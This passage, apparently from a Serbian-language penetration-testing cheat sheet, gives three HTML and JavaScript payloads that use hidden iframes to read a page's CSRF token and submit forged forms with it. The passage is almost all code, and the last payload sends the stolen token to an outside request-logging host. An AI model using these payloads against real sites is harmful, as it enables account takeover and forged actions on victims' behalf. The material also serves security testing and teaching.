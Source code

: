 ```html
<form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data">
<input type="text" name="username" value="AA">
<input type="checkbox" name="status" checked="checked">
<input id="token" type="hidden" name="token" value="" />
</form>

<script type="text/javascript">
function f1(){
x1=document.getElementById("i1");
x1d=(x1.contentWindow||x1.contentDocument);
t=x1d.document.getElementById("token").value;

document.getElementById("token").value=t;
document.getElementById("form1").submit();
}
</script>
<iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"></iframe>
```

### **Ukradi CSRF token i pošalji POST zahtev korišćenjem iframe-a i forme**

```html
<iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"></iframe>

<script>
function read()
{
var name = 'admin2';
var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
document.writeln('<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">');
document.writeln('<input id="username" type="text" name="username" value="' + name + '" /><br />');
document.writeln('<input id="token" type="hidden" name="token" value="' + token + '" />');
document.writeln('<input type="submit" name="submit" value="Submit" /><br/>');
document.writeln('</form>');
document.forms[0].submit.click();
}
</script>
```

### **Ukradi token i pošalji ga koristeći 2 iframe-a**

```html
<script>
var token;
function readframe1(){
token = frame1.document.getElementById("profile").token.value;
document.getElementById("bypass").token.value = token
loadframe2();
}
function loadframe2(){
var test = document.getElementbyId("frame2");
test.src = "http://requestb.in/1g6asbg1?token="+token;
}
</script>

<iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>

```